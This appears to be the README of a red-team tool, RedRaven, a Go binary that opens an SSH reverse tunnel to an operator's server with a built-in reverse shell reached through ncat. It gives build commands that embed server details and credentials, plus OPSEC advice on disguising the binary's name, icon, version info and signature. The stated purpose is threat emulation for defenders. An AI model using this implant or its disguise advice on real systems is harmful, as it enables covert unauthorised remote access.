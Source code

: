 ## RedRaven

RedRaven is a golang (recommend v1.15, v1.13 min) cross platform implementation of an ssh reverse tunnel (with a built in reverse shell) similar to:  

    ssh -R 8080:localhost:8080 -i ./privkey.pem user@serverAddr

This opens a tunnel between the two endpoints and allows data to be exchanged this direction:
   
    server:8080 ---> client:8080

Once authenticated a process on the SSH server can interact with the service answering to port 8080 of the client. In this case a built in reverse shell that you can interact with via ncat on the ssh server.  As this is a outbound model vs a bind you don't need to deal with any NAT/firewall rules assuming outbound ssh is allowed.

## Dependices
* [Go](https://golang.org/) 1.13+
* GNU make
* [goversioninfo](https://github.com/josephspurrier/goversioninfo) (needed to add the windows resource infromation to the binary)
* osslsigncode (needed to sign the windows binary) if you don't care about signing you can comment this line out in the Makefile

## How to build
The only thing you should need to modify is the Makefile for the variable "PATH_TO_PEM."  Note becasue the variables are injected at build time via the Makefile.  Second one may need to uncomment the log.Fatal lines in the main.go for troubleshooting, these statements are commented out for threat emulation purpose to excerise the blue IR and RE teams.  Note you may also need to run "make depends" first to generate the generate self signed certificate.

### Example 1 
You plan to use public Key auth, to do this you first need to set the PATH_TO_PEM variable in the Makefile and 
compile the binary with the nessecary paramaters for example:

    make linux64 PEM=true USER=ubuntu SERVER=<FQDN or IPaddr>:<PORT>

### Example 2 
You plan to use password auth, compile the binary with the nessecary paramaters for example:

    make linux64 PEM=false USER=ubuntu SERVER=acme.com:22 PASSWD=123pass

Note that it is possible to have both a PEM and PASSWD set, the PEM=BOOL controls what is used.

## On the SSH Server (gray space)
SSH to the server to interact with the target and type: 

    ncat localhost 8080

note control-c will kill ncat but it will not terminate the process on the client.  Another words the ssh session is still active. On a windows systems you would need to do something like the following:

    tasklist | findstr putty
    taskkill /F /PID <PID #>

## OPSEC
Things to consider for windows:
* ```You are embedding credentials in the binary being deployed, take precautions!```
* The name of the binary
* The icon
* The values in the ./resource/verioninfo.json file especially "OriginalFilename" - this should match the binary name set in the Makefile
* The fact this uses a self signed Certificate 
